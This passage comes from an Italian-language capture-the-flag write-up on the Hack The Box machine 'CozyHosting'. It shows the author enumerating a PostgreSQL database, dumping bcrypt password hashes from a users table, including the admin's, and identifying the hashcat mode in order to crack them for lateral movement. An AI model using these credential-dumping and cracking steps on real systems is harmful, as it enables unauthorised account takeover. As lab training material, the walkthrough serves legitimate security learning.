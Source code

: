 ```text
\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Scegliamo il db **cozyhosting** e connettiamoci. Poi usiamo il comando `\dt` per elencare tutte le tables.

```text
\connect cozyhosting
You are now connected to database "cozyhosting" as user "postgres".

\dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```

Leggiamo la tabella degli utenti. Potremmo trovare degli hash da crackare per lateral movement.

```text
SELECT * FROM users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

### Cracking Hashes with Hashcat

Usiamo **hashid** per capire la modalità da usare in hashcat.

```shell
┌─[eu-vip-21]─[10.10.14.4]─[dua2z3rr@htb-gwqf776wqo]─[~/10.10.11.230:8000/app/BOOT-INF/classes]
└──╼ [★]$ hashid -m hash
--File 'hash'--
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
--End of file 'hash'--
```
